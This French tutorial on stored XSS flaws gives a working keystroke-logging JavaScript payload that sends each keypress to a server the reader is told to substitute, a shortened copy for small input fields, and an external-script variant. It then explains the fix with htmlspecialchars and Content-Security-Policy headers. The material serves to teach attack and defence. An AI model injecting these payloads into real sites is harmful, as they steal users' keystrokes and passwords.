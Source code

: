 # Injection JS

## Explication de la faille

Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Ce type de vulnérabilité est appelée faille XSS. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.

```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
    var l = e.which || e.keyCode;
    var http = new XMLHttpRequest();
    http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
    http.send();
}
</script>
```

Voici une version de ce même script obfuscer afin de le faire passer dans des champs plus courts.
```html
<script>var u=Math.round(Math.random()*1000000);document.getElementsByTagName("html")[0].onkeypress=(e)=>{var h=new XMLHttpRequest();h.open("GET",`http://127.0.0.1:8081/${u}?l=${(e.which||e.keyCode)}`,true);h.send()}</script>
```

Dans les deux cas, il faudra remplacer l'URL `127.0.0.1` par l'URL du serveur que vous utiliserez pour l'espionnage du client.

Une variante de l'attaque serait d'injecter une balise script faisant référence à une ressource externe.
```html
<script type="application/javascript" src="http://mon-cdn.com"></script>
```

## Explication du correctif

Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` (ou équivalent dans le langage utilisé) qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.

Dans le cas ou un utilisateur arriverait quand même à injecter du code, une bonne pratique consiste à limiter les ressources que la page peut importer. Pour ce faire il faut modifier l'entête de la réponse HTTP contenant la page.

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'" />
<meta http-equiv="X-XSS-Protection" content="1;mode=block" />
```
